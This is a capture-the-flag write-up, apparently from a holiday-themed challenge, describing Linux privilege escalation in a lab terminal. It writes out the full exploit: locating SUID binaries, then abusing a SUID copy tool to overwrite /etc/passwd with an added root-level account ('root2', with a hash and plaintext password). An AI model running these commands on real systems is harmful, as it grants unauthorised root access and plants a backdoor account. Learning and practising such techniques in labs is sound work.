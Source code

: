 # Linux PrivESC:
When I first started the challenge, I was greeted with:

```txt
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Using the article provided by the hint *Linux Privilege Escalation Guide (Updated for 2023)* by Rashid-Ferose published by Payatu, I tried the strategies provided by the article. When I came across this:

![](../images/Linux-PrivEsc-part-1.png)

It seemed interesting. In order to see if the Linux system I was working on had anything that could be used for a privilege escalation attack that also had a SUID bit set, I used this command:

```txt
find / -perm -u=s -type f 2>/dev/null
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-2.png)

The simplecopy command seemed interesting. Since it had a sudo attribute set, I could theoretically use it to perform a linux privelege escalation attack by overwrititng the password file to give me root access. But first I needed to check if simplecopy had was an actual file copier, so I ran:

```txt
simplecopy
```

After I executed the command, the result was:

`Usage: simplecopy <source> <destination>`

So simplecopy is basically the `cp` command but with a SUID bit set. Now I only need to check if simplecopy has root read and write permissons. In order to do this, I typed:

```txt
ls -la /usr/bin/simplecopy
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-4.png)

Simplecopy has root read and write permissions. I then read the article *Linux Privilege Esclation using the SUID bit* by Rangeforce, where I found this interesting bit:

![](../images/Linux-PrivEsc-part-5.png)

Simplecopy can read and write. This could be the solution. I then continued to read:

![](../images/Linux-PrivEsc-part-6.png)

I then followed the instructions, and typed:

```txt
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
simplecopy source/passwd destination
su root2
```
When asked for the password for the `su` user root2, I typed `mrcake` (WVLY0mgH0RtUI is mrcake encrypted as mentioned by the article that root2's password is mrcake). I then gained root access. Since I had to run the binary that was in the `/root` folder, I typed:

```txt
cd ..
cd ..
cd root
ls
```

The output of the `ls` command showed me that binary in `/root` was named `runmetoanswer`. 







